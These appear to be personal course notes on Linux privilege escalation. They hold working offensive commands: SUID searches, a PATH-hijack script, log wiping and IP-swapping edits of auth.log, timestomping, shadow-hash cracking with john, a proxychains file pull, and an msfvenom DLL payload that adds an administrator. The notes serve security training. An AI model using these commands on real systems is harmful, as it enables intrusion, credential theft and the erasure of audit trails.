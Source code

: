 #### ENUMERATION FOR PRIVILEGE ESCALATION
  - What are your techniques and processes?
  - Any particular order?
  - Anything else you should be doing while on the box?
---
#### Sudo
  - `sudo -l` to check what commands the current user can sudo
---
#### SUID/SGID
  - lets you run something as a specific user or specific group
  - can abuse for your own convenience
  - `find / -type f -perm /4000 2>/dev/null`
    - finds files with SUID bit set
    - can search the files in GTFObins
  - `find / -type f -perm /2000 2>/dev/null`
    - finds files with SGID bit set
  - can do /6000, but be careful cuz can not work right sometimes or something idk
---
#### Unsecure Permissions
  - Cron
  - World Writable files and directories (any authorized user can write to (/tmp is a good one))
  - Dot '.' in the path
    - if dot in the path, can make a script that be like 
      ```bash
      #!bin/bash
      whoami > whoami.txt
      ```
    - `vim ls`
      - makes file called ls so when ls command is run it doesn't actually do ls, it does whoami and puts it into         whoami.txt
      
---
#### Vulnerable software and services
  - non-native 3rd party programs and stuff
    - buffer overflow type shit
      -  unless you can't buffer overflow, then you gotta analyze it and be a creative analyst to exploit
      -  fuck
---
#### Logs
Logs typically housed in /var/log, some useful logs:
  - lastlog --- each users successful login time
  - btmp --- tracks bad login attempts
  - secure --- Syslog
  - sulog --- use of su command
  - utmp --- users currently on (w)                 (hard to clean
  - wtmp --- permanent record on user on/off        (hard to clean)
  - auth.log/secure --- tracks usage of authorization

Cleaning the logs, basic
  - Just get rid of it
    - rm -rf (/path/file)
  - Blank it
    - cat /dev/null > (/path/file)
    - echo > /var/log/btmp

Cleaning the logs, precision
  - Always work off a backup
  - `egrep -v '10:49*| 15:15:15' auth.log > auth.log2; cat auth.log2 > auth.log; rm auth.log2 +
cp auth.log > auth.log2; sed -i 's/10.16.10.93/136.132.1.1/g' auth.log2; cat auth.log2 > auth.log +`
    - brain flexing 
   
Timestomp 
  - Easy with Nix vs Windows, native change of Access & Modify times
    - `touch -c -t 201603051015 1.txt`
    - `touch -r 3.txt 1.txt`
    - NOTE: Change time requires changing the system time than touch the file. Could cause serious issues
---
#### Rsyslog
- Newer Rsyslog call /etc/rsyslog.d/* for settings/rules
- Older uses /etc/rsyslog.conf
  - To find out:
    - `grep "IncludeConfig" /etc/rsyslog.conf`
---
`sudo apt install john`
  - copy hashes from shadow file into a .txt 
  - john passwords.txt --wordlist=rockyou.txt
    - wont crack another password again, have to do `john passwords.txt --show`
    - **IF U GET CREDENTIALS, PUT THEM IN YOUR OPNOTES**



proxychains scp comrade@192.168.28.27:/tmp/10-milli.txt .


msfvenom -p windows/exec CMD='cmd.exe /C "net localgroup Administrators comrade /add"' -f dll > hijackmeplz.dll




















